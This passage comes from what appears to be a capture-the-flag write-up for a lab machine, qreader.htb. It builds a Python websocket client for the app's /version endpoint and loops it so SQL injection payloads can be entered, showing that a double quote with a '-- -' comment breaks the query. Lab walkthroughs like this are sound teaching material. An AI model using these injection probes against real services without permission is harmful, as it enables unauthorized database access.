 Looking at the code between lines 93–103, we can see that the application accepts connection through web socket to /version endpoint. It takes **version** as a parameter and checks if the version is available or not. To do this, there must be the version information stored on the database.

        def version(self):
            response = asyncio.run(ws_connect(ws_host + '/version', json.dumps({
                'version': VERSION })))
            data = json.loads(response)
            if 'error' not in data.keys():
                version_info = data['message']
                msg = f'''[INFO] You have version {version_info['version']} which was released on {version_info['released_date']}'''
                self.statusBar().showMessage(msg)
            else:
                error = data['error']
                self.statusBar().showMessage(error)

Let’s develop our own python script and re-create the above code.

    import json
    from websocket import create_connection
    
    data = input("Enter Data: ")
    
    web_soc = create_connection('ws://qreader.htb:5789/version')
    web_soc.send(json.dumps({'version': data}))
    result = web_soc.recv()
    print(result)
    web_soc.close()

The above code takes a string as input, connects to web-socket **ws://qreader.htb:5789/version** and pass the data on version parameter. Upon running, the above code executes as.

    python3 websocketVersion.py 
    Enter Data: test
    {"message": "Invalid version!"}
    
    python3 websocketVersion.py
    Enter Data: 1.4
    {"message": "Invalid version!"}

Let’s check if we could perform SQL injection here. We will modify the script above and implement the While loop so that we can enter payload multiple times.

    import json
    from websocket import create_connection
    
    while True:
        payload = input("Enter Payload: ")
    
        web_soc = create_connection('ws://qreader.htb:5789/version')
        web_soc.send(json.dumps({'version': payload}))
        result = web_soc.recv()
        print(result)
        web_soc.close()

Run the above code and enter single quote. It responds with Invalid Version error but when we enter the double quote, it does not responds with any data. And when we join the query with a comment **-- -**, it responds with Invalid Version again. We can see that we were able to break the query with double quote and join it with a comment.
